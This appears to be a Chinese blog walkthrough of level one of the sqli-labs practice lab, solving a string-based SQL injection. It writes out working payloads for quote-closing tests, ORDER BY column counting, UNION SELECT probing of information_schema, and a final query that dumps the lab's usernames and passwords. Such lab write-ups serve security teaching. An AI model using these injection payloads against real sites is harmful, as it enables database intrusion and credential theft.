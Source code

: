 ```yaml
---
layout: post
title: "sqlilabs第一关"
date: "2023-05-07T01:12:50.602Z"
---
```

第一关是一个简单的字符型注入，根据自己的思路以及知识储备，总结通关！！！！

首先打开网页，进行注入点的测试 输入**?id=1 and 1=1**发现1=2的时候没有进行报错，有两种可能，一种是不能注入，第二种是字符型可以通过对字符型里面的''进行闭合，输入'and 1=1--+发现在1=2的情况下出现了报错，说明还是可以进行注入的，

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223139007-1563303605.png)

然后输入**'order by()--+**来拆解一下有多少个显示字段，输入4发现没有回显，修改为3发现有回显，说明有三个回显字段

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223139177-8099936.png)

然后输入**'union select 1,2,3--+** 因为有三个显示字段，所以查询一下显示位，因为我们要显示我们输入的1，2，3.所以要把服务器想要显示的让他报错将id=1修改为-1，发现只有2和3，有回显

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223139229-1221320924.png)

知道2和3可以回显之后就可以进行下一步，在2或者3的位置进行信息收集，首先进行他的数据库版本和数据库名字进行收集得到

数据库版本：**version()** 5.7.26

数据库名称：**database()** security

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223138992-1966159950.png)

因为得到了他的数据库的名字，所以我们要去收集他的表名

'union select 1,group\_concat(table\_name),3 from information\_schema.tables where table\_schema='security'--+

查询到表名有 emails,referers,uagents,users

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223138911-918668366.png)

**查询完表名之后就要去查询他的列名，一共有四个表名，所以我们就要去挨个查询，去得到他的敏感信息，因为要查询列名，所以就要把查询的表名切换为列名，然后来自于表名下所有的列，，这些来自于表名所以后面有要改搜索到的表名，一共有四个表名，就要去挨个去搜索，**

'union select 1,group\_concat(column\_name),3 from information\_schema.columns where table\_name='emails'--+

得到的列名总共有 id,email\_id id,referer,ip\_address id,uagent,ip\_address,username

USER,CURRENT\_CONNECTIONS,TOTAL\_CONNECTIONS,id,username,password,level,id,username,password

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223138971-841649213.png)

发现里面有,username,password意思是账号密码的意思，可以在这两个列里面查询里面的信息，因为不知道有多少密码可以尝试用group\_concat()来全部输出看一下

union select 1,group\_concat(username),group\_concat(password) from users

联合查询，全部输出(username)，全部输出(password) 来自于users

因为username,password是在users 这个表里面查询出来的，就要去这个表里面去查询

![截图.png](https://img2023.cnblogs.com/blog/3184451/202305/3184451-20230506223138992-894130249.png)

得到账号Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4,admin5

密码Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4,admin5

##本文为原创文章，转载请附上原文出处链接及本声明。

发表于 2023-05-06 22:32  [wahaha111](https://www.cnblogs.com/wahaha1/)  阅读(38)  评论(0)  [编辑](https://i.cnblogs.com/EditPosts.aspx?postid=17378606)  [收藏](javascript:void(0))  [举报](javascript:void(0))